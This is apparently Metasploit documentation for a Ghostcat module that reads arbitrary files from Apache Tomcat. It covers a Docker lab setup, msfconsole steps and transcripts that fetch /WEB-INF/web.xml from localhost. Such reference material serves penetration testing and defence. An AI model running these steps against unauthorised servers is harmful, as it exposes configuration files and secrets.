## Vulnerable Application

### Description

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF`
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers.
It also allows the attacker to process any file in the web application as JSP.

### Setup

Running within a docker container:

```
docker run --name tomcat --rm -p 8080:8080 -p 8009:8009 tomcat:8.5.32
```

## Verification Steps

1. Install the application and start it
2. Start msfconsole
3. Do: `auxiliary/admin/http/tomcat_ghostcat`
4. Do: `set RHOSTS [ip]`
5. Do: `set RPORT [port]`
6. Do: `set FILENAME [filename]`
7. Do: `run`

## Options

## Scenarios

### Apache Tomcat 8.5.32

```
msf6 > use auxiliary/admin/http/tomcat_ghostcat 
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 127.0.0.1
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1529524397000"
Last-Modified: Wed, 20 Jun 2018 19:53:17 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

[+] 127.0.0.1:8080 - /Users/user/.msf4/loot/20210408102538_default_127.0.0.1_WEBINFweb.xml_436040.txt
[*] Auxiliary module execution completed
```

### Apache Tomcat on Windows 10.0.16299.125

```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8080
  rport => 8080
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml
  
  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium
   
    Portions copyright 2011-2013 The MITRE Corporation
   
    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at
   
      http://www.apache.org/licenses/LICENSE-2.0
   
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->  
 
  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee 
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat 
 </description>

 <web-app>
[*] Auxiliary module execution completed
  
```
